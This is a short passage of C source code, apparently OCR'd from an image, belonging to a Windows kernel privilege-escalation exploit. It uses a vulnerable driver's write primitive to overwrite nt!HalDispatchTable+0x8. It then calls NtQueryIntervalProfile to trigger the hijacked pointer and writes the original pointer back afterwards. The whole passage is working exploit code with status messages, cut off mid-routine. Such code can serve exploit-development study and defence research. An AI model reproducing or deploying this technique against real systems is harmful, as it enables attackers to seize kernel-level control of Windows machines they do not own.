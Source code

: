 ```c
							else
							{
								printf("[+] Successfully overwrote the pointer at nt!HalDispatchTable+0x8!\n");

								// Locating nt!NtQueryIntervalProfile
								NtQueryIntervalProfile_t NtQueryIntervalProfile = (NtQueryIntervalProfile_t)GetProcAddress(
									GetModuleHandle(
										TEXT("ntdll.dll")),
									"NtQueryIntervalProfile"
								);

								// Error handling
								if (!NtQueryIntervalProfile)
								{
									printf("[-] Error! Unable to find ntdll!NtQueryIntervalProfile! Error: %d\n", GetLastError());
									exit(1);
								}
								else
								{
									// Print update for found ntdll!NtQueryIntervalProfile
									printf("[+] Located ntdll!NtQueryIntervalProfile at: 0x%llx\n", NtQueryIntervalProfile);

									// Calling nt!NtQueryIntervalProfile
									ULONG exploit = 0;

									NtQueryIntervalProfile(
										0x1234,
										&exploit
									);

									// Restoring nt!HalDispatchTable+0x8
									// Buffer to send to the driver (write primitive)
									unsigned long long inBuf16[4];

									// Values to send
									unsigned long long one16 = 0x4141414141414141;
									unsigned long long two16 = halDispatch;
									unsigned long long three16 = 0x0000000000000000;
									unsigned long long four16 = preservedHal;

									// Assign the values
									inBuf16[0] = one16;
									inBuf16[1] = two16;
									inBuf16[2] = three16;
									inBuf16[3] = four16;

									// Interact with the driver
									DWORD bytesReturned16 = 0;

									BOOL interact15 = DeviceIoControl(
										driverHandle,
										IOCTL_WRITE_CODE,
										&inBuf16,
										sizeof(inBuf16),
										&inBuf16,
										sizeof(inBuf16),
										&bytesReturned16,
										NULL
									);
```